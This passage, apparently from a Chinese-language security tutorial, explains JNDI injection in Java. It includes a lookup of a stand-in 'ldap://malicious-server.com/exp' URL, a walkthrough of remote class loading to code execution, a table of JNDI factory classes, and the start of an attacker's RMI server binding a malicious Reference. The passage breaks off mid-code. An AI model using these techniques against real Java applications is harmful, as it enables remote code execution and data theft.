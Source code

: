 ```java
        String userInput = "ldap://malicious-server.com/exp";
        lookup(userInput);
    }
}
```

**远程加载与执行：**

1. **恶意代码的托管**：攻击者在恶意服务器上托管恶意代码。通常是一个Java类或对象，执行时能够触发攻击者想要的恶意行为。
2. **JNDI查找**：在受影响的Java应用中，JNDI查找使用外部控制的输入；比如通过用户输入构建的url，而url指向了攻击者的恶意服务器（例如`ldap://malicious-server.com/exp），则应用将尝试连接到这个服务器。
3. **远程类加载**：如果Java的JNDI服务允许从LDAP或RMI服务加载Java类。当应用连接到攻击者的服务器时，恶意服务器响应这个JNDI查找请求，并提供恶意类的引用。
4. **代码执行**：当这个恶意类被加载到应用中时，其内含的恶意代码就会被执行。可能造成系统的破坏、数据泄露、反弹Shell等各种攻击行为。

**以下是JDK中默认支持的一些JNDI服务类型及其对应的工厂类示例**

| 服务类型   | 工厂类                                             | 描述                                                         |
| ---------- | -------------------------------------------------- | ------------------------------------------------------------ |
| LDAP       | `com.sun.jndi.ldap.LdapCtxFactory`                 | 轻量级目录访问协议，常用于访问和管理目录服务中的信息         |
| RMI        | `com.sun.jndi.rmi.registry.RegistryContextFactory` | 远程方法调用，允许在不同Java虚拟机之间进行远程通信和方法调用 |
| DNS        | `com.sun.jndi.dns.DnsContextFactory`               | 域名系统，用于解析域名到IP地址                               |
| CORBA      | `com.sun.jndi.cosnaming.CNCtxFactory`              | 一种中间件设计，允许不同程序之间通信，不论编程语言或平台     |
| Filesystem | `com.sun.jndi.fscontext.RefFSContextFactory`       | 用于访问和操作文件系统资源                                   |



## JNDI注入应用

> 根据前面的介绍，我们知道基于 JNDI 的 lookup 内容如果用户可控，这样来使客户端访问恶意的RMI或者 LDAP服务来加载恶意的对象 从而执行代码完成利用；

![jndiinj](https://p.ipic.vip/r01ef7.png)



### JNDI注入之RMI

> 前面我们已经知道RMI的基本用法， 服务端可以绑定一个对象，在客户端进行那个查找的时候以序列化的方式返回；同时，也可以绑定一个对象的引用，让客户端去指定的地址获取对象；

**攻击者构造的RMI恶意服务端**

> **代码说明：**
>
> 演示了如何在 RMI 服务端创建一个恶意的 `Reference` 对象并通过 `ReferenceWrapper` 将其绑定到 RMI 注册表中。因为绑定的是Reference对象,客户端在本地CLASSPATH查找Exploit类,如果没有,则根据设定的Reference属性到URL `http://localhost/EvilCClass.class` 获取构造对象实例 构造方法中的恶意代码会被执行.

```java
// ServerExp.java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ServerExp {
        
    public static void main(String args[]) {
        
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
						// 定义一个 URL，指向恶意类的位置。这里假设恶意类托管在本地的 8000 端口上
            String factoryUrl = "http://localhost:8000/";
          
            // 三个参数的定义：
```